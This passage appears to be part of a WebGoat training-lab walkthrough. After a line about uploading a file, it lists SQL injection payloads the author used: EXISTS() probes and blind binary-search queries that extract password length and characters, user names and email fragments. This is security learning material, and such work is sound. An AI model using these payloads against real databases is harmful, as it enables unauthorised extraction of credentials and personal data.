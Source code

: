 Then, upload the file via the WebGoat upload page.

### Interesting SQL Injection queries I used to get necessary info from the DB:

````title="Using EXISTS()"
' or EXISTS(SELECT * FROM users);
devon' and exists(select * from users) and '1'='1
````
````title="Using Binary Search"
Tom' and length(password)>0;--
tom' AND ascii(substring(password,1,1)) > 60;--
Tom' and length(user)>5;--
Tom' and ascii(substr(user,2,2))=65;--
Tom' and right(email,3)='com
````
